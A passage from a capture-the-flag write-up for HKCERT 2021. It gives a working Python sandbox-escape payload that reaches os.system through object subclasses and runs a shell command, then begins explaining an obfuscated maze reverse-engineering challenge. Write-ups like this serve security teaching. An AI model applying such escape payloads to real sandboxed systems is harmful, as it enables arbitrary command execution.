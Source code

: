 Then I realised that although `__builtins__` was clear, this dict still exist and can be used. To assign the value for dictionary, we can use `update`. Therefore, what we need to do is just split the previous payload, use `update` to store the payload to the dict and ...Done!

**Solve:**

```
__builtins__.update({'a': ().__class__.__base__})
__builtins__.update({'a': a.__subclasses__()})
__builtins__.update({'a': a.pop(133).__init__})
__builtins__.update({'a': a.__globals__})
a.pop('system')('cat flag.txt')
```
FLAG : **hkcert21{cr0sS_namesP4se__builtin__breaK_the_JAIL}**

## 最難行的路 (The Hardest Path) - reverse, misc (300 points)
### Challenge :
>> 寧願不揀最易的路 行極還未到 寧願你最後未傾慕 但信念安好 在意的 不再是 愛的煩惱 是哪樣做人 更清高 餘生那段旅途 與哪類人共舞

> When you think reverse engineering is hard, try working on reverse engineering challenges those need your algorithmic thinking skills!

> nc chalp.hkcert21.pwnable.hk 28005

### Files : 
[the-hardest-path_e00c6aa7b64b8dc2a06e577937b5b07c.zip](/files/HKCERT/the-hardest-path_e00c6aa7b64b8dc2a06e577937b5b07c.zip)

### Solution : 
This is my favourite challenge in this CTF since I made a huge mistake when solving it...
Two python files were provided, `chall.py` and `lost.py`. The `chall.py` serves as a server, receving a Proof-of-Work and some "inputs". If the input is correct, the flag will be returned. `lost.py` contains the real chall and logic, with some slightly obfuscated codes/variables.

To put it simply, after the reverse,

* Line 3 defined 4 instructions of movements, i.e., North ('N'), East ('E'), West ('W') and South ('S').
```
mystery = 'NEWS'
```
* Line 5 defined a function to represent a dead-end.
```
def _29aa7a86665899ed(_050ca071ab51aece): raise Exception('😵‍💫💫🧱')
```
* Line 7 - 15 defined the checking on whether the instructions is one of the "NEWS", as well as whether we have arrived the end after all provided instructions
```
def _f42fb5e137443877(_a78810bb76cc7d70, *_ab1bbf35017f4f42):
    def _e6aea2db2242b19f(_41d28eb8c27952c3):
        if len(_41d28eb8c27952c3) == 0:
            if not _a78810bb76cc7d70: raise Exception('🤷🏁😕')
            return
        _03d38fa3a589db14, _41d28eb8c27952c3 = _41d28eb8c27952c3[0], _41d28eb8c27952c3[1:]
        return globals()[_ab1bbf35017f4f42[mystery.index(_03d38fa3a589db14)]](_41d28eb8c27952c3) if _03d38fa3a589db14 in mystery else _e6aea2db2242b19f(_41d28eb8c27952c3)

    return _e6aea2db2242b19f
```
* The remaining lines are the paths / relationship of each node, telling you the neighbour of each direction you go from this node (_f42fb5e137443877[0] => whether it is the end,_f42fb5e137443877[1], _f42fb5e137443877[2], _f42fb5e137443877[3], _f42fb5e137443877[4] -> 'N', 'E', 'W', 'S')
```
...<snipped>...
_2f00e51306a05b87 = _29aa7a86665899ed (represent dead-end)
```